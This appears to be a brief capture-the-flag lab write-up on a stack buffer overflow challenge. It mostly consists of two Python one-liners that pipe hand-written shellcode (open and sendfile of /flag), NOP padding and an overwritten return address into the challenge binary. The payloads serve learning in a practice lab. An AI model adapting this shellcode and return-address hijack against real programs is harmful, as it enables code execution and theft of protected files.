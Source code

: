 The payload that i used

    python -c 'import sys; sys.stdout.buffer.write(b"\x31\xc0\xb8\x02\x00\x00\x00\x48\x8d\x3d\x1b\x00\x00\x00\x31\xf6\x0f\x05\x31\xff\x40\xb7\x01\x31\xf6\x40\x88\xc6\x31\xd2\x49\xc7\xc2\x80\x00\x00\x00\xb0\x28\x0f\x05\x2f\x66\x6c\x61\x67\x00" + b"\x90"*89 + b"\x70\xd2\xff\xff\xff\x7f")' | ./binary-exploitation-hijack-to-shellcode-w

The shell code that i used for previous challenge did not work so i had to create a different one
push and pop function in the shell was throwing seg fault because the shellcode was present on stack (dont know why it was throwing seg fault)

    python -c 'import sys; sys.stdout.buffer.write(b"\x31\xc0\xb8\x02\x00\x00\x00\x48\x8d\x3d\x1b\x00\x00\x00\x31\xf6\x0f\x05\x31\xff\x40\xb7\x01\x31\xf6\x40\x88\xc6\x31\xd2\x49\xc7\xc2\x80\x00\x00\x00\xb0\x28\x0f\x05\x2f\x66\x6c\x61\x67\x00" + b"\x90"*25 + b"\xa0\xd2\xff\xff\xff\x7f")' | ./binary-exploitation-hijack-to-shellcode
